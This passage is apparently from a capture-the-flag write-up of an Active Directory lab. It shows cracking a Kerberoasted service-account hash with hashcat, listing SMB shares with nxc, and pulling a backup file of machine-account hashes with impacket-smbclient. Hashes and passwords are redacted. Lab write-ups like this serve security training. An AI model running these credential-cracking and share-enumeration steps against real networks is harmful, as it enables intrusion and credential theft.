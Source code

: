 Running `hashcat` over the extracted hashes will result in one cracked hash. 

```terminal
$hashcat hashes.txt rockyou.txt
$krb5tgs$23$*file_svc$SOUPEDECODE.LOCAL$SOUPEDECODE.LOCAL/file_svc*$e27f725109a6a00a8e0f5687ca9e3545$<hash>:FOUNDPASSWORD
```

Finally this user is able to read the backup share.

```terminal
$nxc smb 10.10.46.83  -u "file_svc" -p 'FAKE' --shares
SMB         10.10.46.83     445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:SOUPEDECODE.LOCAL) (signing:True) (SMBv1:False)
SMB         10.10.46.83     445    DC01             [+] SOUPEDECODE.LOCAL\file_svc:FAKE
SMB         10.10.46.83     445    DC01             [*] Enumerated shares
SMB         10.10.46.83     445    DC01             Share           Permissions     Remark
SMB         10.10.46.83     445    DC01             -----           -----------     ------
SMB         10.10.46.83     445    DC01             ADMIN$                          Remote Admin
SMB         10.10.46.83     445    DC01             backup          READ            
SMB         10.10.46.83     445    DC01             C$                              Default share
SMB         10.10.46.83     445    DC01             IPC$            READ            Remote IPC
SMB         10.10.46.83     445    DC01             NETLOGON        READ            Logon server share 
SMB         10.10.46.83     445    DC01             SYSVOL          READ            Logon server share 
SMB         10.10.46.83     445    DC01             Users
```

There is only one file in the share:
```terminal
$impacket-smbclient 10.10.99.112/file_svc:'FAKE'@10.10.46.83
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

Type help for list of commands
# shares
ADMIN$
backup
C$
IPC$
NETLOGON
SYSVOL
Users
# use backup
# ls
drw-rw-rw-          0  Mon Jun 17 17:41:17 2024 .
drw-rw-rw-          0  Fri Jul 25 17:51:20 2025 ..
-rw-rw-rw-        892  Mon Jun 17 17:41:23 2024 backup_extract.txt
# get backup_extract.txt
```

If you print the file you will be greeted with a massive amount fo hashes.

```terminal
$cat backup_extract.txt 
WebServer$:2119:<HASH>:<HASH>:::
DatabaseServer$:2120:<HASH>:<HASH>:::
CitrixServer$:2122:<HASH>:<HASH>:::
FileServer$:2065:<HASH>:<HASH>:::
MailServer$:2124:<HASH>:<HASH>:::
BackupServer$:2125:<HASH>:<HASH>:::
ApplicationServer$:2126:<HASH>:<HASH>:::
PrintServer$:2127:<HASH>:<HASH>:::
ProxyServer$:2128:<HASH>:<HASH>:::
MonitoringServer$:2129:<HASH>:<HASH>:::
```
